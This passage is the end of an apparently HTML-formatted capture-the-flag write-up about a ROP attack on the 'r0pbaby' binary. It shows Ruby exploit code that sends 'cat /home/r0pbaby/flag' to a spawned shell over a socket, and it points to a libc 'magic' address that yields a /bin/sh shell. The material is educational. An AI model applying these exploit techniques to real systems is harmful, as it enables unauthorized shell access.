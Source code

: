 <span class="Comment"># Give sh some time to start</span>
puts(<span class="Special">&quot;</span><span class="Constant">Pausing...</span><span class="Special">&quot;</span>)
sleep(<span class="Constant">1</span>)

<span class="Comment"># Write the command we want to run</span>
puts(<span class="Special">&quot;</span><span class="Constant">Attempting to read the flag!</span><span class="Special">&quot;</span>)
s.write(<span class="Special">&quot;</span><span class="Constant">cat /home/r0pbaby/flag</span><span class="Special">\n</span><span class="Special">&quot;</span>)

<span class="Comment"># Receive forever</span>
<span class="Statement">loop</span> <span class="Statement">do</span>
  x = s.recv(<span class="Constant">1024</span>)

  <span class="Statement">if</span>(x.nil? || x == <span class="Special">&quot;&quot;</span>)
    puts(<span class="Special">&quot;</span><span class="Constant">Done!</span><span class="Special">&quot;</span>)
    <span class="Statement">exit</span>
  <span class="Statement">end</span>
  puts(x)
<span class="Statement">end</span>
</pre>

<a name='update1'></a><h2>[update] Or... do it the easy way</h2>

After I posted this, I got a tweet from <a href='https://twitter.com/gaasedelen'>@gaasedelen</a> informing me that libc has a "magic" address that will literally call exec() with "/bin/sh", making much of this unnecessary for this particular level. You can find it by seeing where the "/bin/sh" string is referenced. You can return to that address and a shell pops.

But it's still a good idea to know how to construct a ROP chain, even if it's not strictly necessary. :)

<h2>Conclusion</h2>

And that's how to perform a ROP attack against a 64-bit binary! I'd love to hear feedback!